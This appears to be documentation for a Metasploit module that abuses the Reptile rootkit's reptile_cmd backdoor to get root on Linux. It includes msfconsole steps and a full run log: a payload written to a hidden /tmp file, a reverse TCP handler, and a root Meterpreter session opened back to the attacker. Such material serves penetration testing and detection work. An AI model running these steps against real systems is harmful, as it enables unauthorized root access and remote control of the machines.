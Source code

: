 ## Description

  This module uses Reptile rootkit's `reptile_cmd` backdoor executable
  to gain root privileges using the `root` command.


## Vulnerable Application

  [Reptile](https://github.com/f0rb1dd3n/Reptile) is a Linux Kernel Module (LKM) rootkit.

  The `reptile_cmd` utility, installed to `/reptile` by default, permits elevating privileges
  to root using the `root` argument.

  This module has been tested successfully with Reptile from `master` branch (2019-03-04) on:

  * Ubuntu 18.04.3 (x64)
  * Linux Mint 19 (X64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **REPTILE_CMD_PATH**

  Path to `reptile_cmd` executable (default: `/reptile/reptile_cmd`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Ubuntu 18.04.3 (x64)

  ```
  msf > use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc 
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > check

  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [+] The target is vulnerable.
  msf exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [*] Writing '/tmp/.Q53XrrJ3RFy' (207 bytes) ...
  [*] Executing payload...

  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.166
  [*] Meterpreter session 3 opened (172.16.191.165:4444 -> 172.16.191.166:56736) at 2019-12-08 03:19:01 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.166
  OS           : Ubuntu 18.04 (Linux 5.0.0-25-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

